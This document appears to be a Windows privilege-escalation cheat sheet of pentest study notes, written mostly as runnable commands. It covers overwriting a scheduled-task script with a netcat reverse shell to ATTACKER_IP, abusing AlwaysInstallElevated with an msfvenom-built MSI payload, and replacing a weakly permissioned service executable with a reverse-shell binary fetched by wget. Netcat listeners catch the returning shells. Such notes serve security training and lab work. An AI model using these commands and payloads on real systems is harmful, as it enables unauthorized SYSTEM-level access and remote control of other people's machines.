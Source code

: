 Other software to check:

- Browsers
- Email clients
- FTP clients
- SSH clients
- VNC software

## Quick Wins

##### Scheduled Tasks

`schtasks` - List scheduled tasks.
`schtasks /query /tn <vulntask> /fo list /v` - Get Detailed information about a service.
`icacls <Path to scheduled task` - Check who has access F means full access.
`echo c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> <port> > C:\tasks\schtask.bat` - Change the binary contents with a reverse shell using Netcat.
`nc -lvp <port>` - Open a listener from the attacker machine.

##### AlwaysInstallElvated

Works if .msi files are configured to run with higher privileges than the user running them.

Both values should be set for this to work:

- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

1. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.75.206 LPORT=LOCAL_PORT -f msi -o malicious.msi` - Generate a malicious .msi file
2. Run Metasploit handler.
3. `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi` - Run this command on the target machine to get the shell.

## Abusing Service Misconfiguration

##### Windows Services

Managed by the Service Control Manager(SCM), each service has an associated executable file which will run by the SCM using a special function when the service is started.

##### Insecure Permissions on Service Executables

Happens when a service executable has week DACL(Discretionary Access Control List) which allows you to modify or replace the file.

`sc qc <service name>` - Check service configuration.
`HKLM\SYSTEM\CurrentControlSet\Services\` Services configuration location on the registery.
`icacls <service path` - Check the permisions of the service executable file.
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<port> -f exe-service -o rev-svc.exe` - Generate a reverse shell using Msfvenom.
`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe` - Get the file to the victim using Powershell.
`cd <service directory path>` - Go to the directory of the service.
`move <service file name>.exe <service file name>.exe.bkp` - Move the service file to a backup file.
`move <malicious service path> <service file name>.exe` - Move the malicious file to the current folder named after the legitimate service.
`icacls <service file name>.exe /grand Everyone:F` - Grant full permission to the Everyone group.
`nc -lvp <port>` - Start a reverse listener on the attacker machine.
`sc stop <service name>` than `sc start <service name>` - Restart the service (usually you want have the permissions and would need to wait for the service to restart by itself).
